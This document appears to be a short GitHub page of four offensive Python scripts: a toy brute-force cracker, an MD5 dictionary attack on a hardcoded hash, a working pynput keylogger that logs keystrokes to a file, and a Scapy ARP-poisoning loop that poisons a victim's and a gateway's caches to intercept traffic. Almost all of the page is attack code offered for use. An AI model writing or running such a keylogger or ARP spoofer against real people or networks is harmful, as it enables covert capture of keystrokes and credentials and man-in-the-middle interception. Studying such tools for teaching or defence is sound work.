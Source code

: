 1) passworrd cracker
import random

# Character set for brute-force attack
list_of_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

# Generate a random password
password = ""
for _ in range(random.randint(8, 16)):  # Realistic password length
    password += random.choice(list_of_chars)

def solve_password(word):
    attempted_password = ""
    attempts = 0  # Counter to count total attempts

    for character in word:
        for entry in list_of_chars:
            attempts += 1
            if character == entry:
                attempted_password += character
                break  # Move to the next character

    return attempted_password, attempts

# Crack the password
cracked_password, total_attempts = solve_password(password)

# Display results
print("Generated Password: ", password)
print("Cracked Password:   ", cracked_password)
print("Password Match: ", cracked_password == password)
print("Total Attempts: ", total_attempts)


2)password cracking dict
import hashlib

# Hashed password to crack (MD5 of 'password123')
target_hash = "482c811da5d5b4bc6d497ffa98491e38"

# Dictionary list (in memory)
wordlist = ["123456", "password", "letmein", "admin", "password123"]

found = False

for word in wordlist:
    hashed_word = hashlib.md5(word.encode()).hexdigest()
    
    if hashed_word == target_hash:
        print(f"[✔] Password found: {word}")
        found = True
        break

if not found:
    print("[✘] Password not found in the wordlist.")


3)keyloger
from pynput.keyboard import Listener

# Function to handle key presses
def on_press(key):
    try:
        # Check if the key is a regular character or a number
        if hasattr(key, 'char') and key.char is not None:
            with open("keylog.txt", "a") as log_file:
                log_file.write(key.char)
                print(key.char) 
        else:
            # Handle special keys
            with open("keylog.txt", "a") as log_file:
                log_file.write(f"[{key}]")  # Write special keys like enter, shift, etc.
    except Exception as e:
        print("Error:", e)

# Setting up the listener
with Listener(on_press=on_press) as listener:
    listener.join()


4)ARP poisoing

from scapy.all import ARP, Ether, send
import time

# Set your target IP and gateway IP
target_ip = "192.168.1.5"       # Victim
gateway_ip = "192.168.1.1"      # Router/Gateway

# MAC addresses (optional - can use ARP requests to get these dynamically)
target_mac = "AA:BB:CC:DD:EE:FF"
gateway_mac = "11:22:33:44:55:66"

# Create ARP response packets to poison the target and the gateway
def spoof(target_ip, spoof_ip, target_mac):
    arp_response = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    send(arp_response, verbose=False)

try:
    print("[*] Starting ARP spoofing... Press CTRL+C to stop.")
    while True:
        spoof(target_ip, gateway_ip, target_mac)  # Tell target "I am router"
        spoof(gateway_ip, target_ip, gateway_mac)  # Tell router "I am target"
        time.sleep(2)

except KeyboardInterrupt:
    print("\n[!] Stopping ARP spoofing... Restoring network (not included here).")

